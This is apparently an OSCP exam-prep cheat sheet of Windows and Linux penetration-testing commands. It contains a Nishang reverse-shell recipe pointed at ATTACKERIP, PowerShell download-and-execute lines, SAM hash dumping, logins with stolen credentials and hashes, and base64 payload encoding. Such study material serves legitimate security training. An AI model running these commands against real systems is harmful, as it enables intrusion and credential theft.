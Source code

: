 # oscp-cheatsheet

## Kali General

- Listen for pings to test if you remote command worked
  - `tcpdump -i interface icmp`
- Download all files from an ftp service
  - `wget -m --no-passive ftp://anonymous:anonymous@ipaddress`
- Read zip file info
  - `7z l -slt File.zip`
- Crack a password protected zip file
  - fcrack -D -p password_List File.zip
- Useful tools
  - xclip

## General Resources

- Ippsec has timestamp links in the description of all of his videos outlining the current command or technique he is performing
  - Google dork examples: `ippsec hackthebox mimikatz site:youtube.com`, `ippsec hackthebox download with powershell site:youtube.com`

## Windows

### Resources

- [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)

### Privesc

- Test if powershell is working without breaking shell
  - `powershell whoami`
- Pivot DoS to powershell using Nishang reverse powershell script.
  - Listen w/ nc on a new port.
  - Make a copy of `Invoke-PowerShellTcp.ps1` and add `Invoke-PowerShellTcp -Reverse -IPAddress ATTACKERIP -Port NEWLISTENERPORT` at the bottom of the copy file to run the command automatically
  - Start an HTTP server in the root directoy of the modified nishang script copy
  - Run this from DoS: `powershell "IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/nishang.ps1")"`
  - Go to your listener terminal, you should now have a reverse PS shell
- Download string that loads a ps script into memory (if you want it to auto run make sure there is a call to the function to do so at the bottom of the script, or else it'll just load the functions into memory)
  - `IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/jaws.ps1")`
- Download file
  - PS `IEX(New-Object Net.Webclient).downloadFile("<urltofile>","savelocation")`
- Run cmd as other user
  - PS > `$SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred`
  - DOS > `\Windows\System32\runas.exe`
- Run exe
  - PS from working directory `Start-Process -FilePath "sort.exe"`
  - PS from other directory `Start-Process -FilePath "myfile.txt" -WorkingDirectory "C:\PS-Test"`
  - PS as admin `Start-Process -FilePath "powershell" -Verb RunAs -Credential $cred` (See above on how to create credential)
  - PS with arguments `Start-Process -FilePath "$env:comspec" -ArgumentList "/c dir ``"%systemdrive%\program files\``""`
- Decrypy SAM password hashes
  - `impacket-secretsdump -sam SAMFILE -system SYSTEMFILE local`
- Determine admin accounts
  - DOS: `net localgroup administrators`
- SAM and SYSTEM file location
  - `Windows/System32/config`
- Log into remote windows host with stolen creds (SMB required)
  - `psexec.py user@ip`
- Find shortcut location (`*.lnk`)
  - PS `$Wscript = New-Object -ComObject Wscript.shell; $shortcut = Get-ChildItem *.lnk'; $Wscript.CreateShortcut($shortcut)`
- Remember to check for dates when patches were applied, it'll key you into good potential kernel exploits
- Check panther directory, install logs get put in here and contain creds
- Read contents of file in PS shell
  - `get-Content "filename"`

### SMB

- Connect with stolen hash
  - `smbmap -u USER -p HASH -H hostnameIP`

### Troublshooting

- Have you checked for vuln apps in program files?
- Have you noticed any running processes that look obviously suspicious?
- Have you check all files in /Users directory (ie. /Desktop, /Documents
- Have you checked for hidden files?
  - `dir /ah`

## Linux

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-linux/)

### Priv Esc troubleshooting

- Did you check all cronjobs?
- Did you check all processes running as root or another user?
- Did you see if mountable file systems are available?
- Did you check for config files?
- Did you check /var/www/?
- Did you check all home dirs?
  - .ssh?
  - .bash_history?~~

## Troubleshooting

- Did an RCE test work but your payload fail?
  - Try changing single quotes to double quotes or in some cases, like a powershell command, try double to triple and vice versa
  - Try escaping special characters
  - Try changing your outgoing port to a more commonly used one (80, 443, 21, 22, etc)
  - Try removing bad characters
    - ex: `cat reverse.ps1 OR echo -n "cmd" | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard`
      - `powsershell-enc base64scriptpaste`
  - If you used msfvenom make sure your archicitecture is correct
  - If you used msfvenom make sure your payload size isn't too large
  - If you used msfvenom try pivoting options
- Is your file transfer failing
  - do you have write access to the CWD?
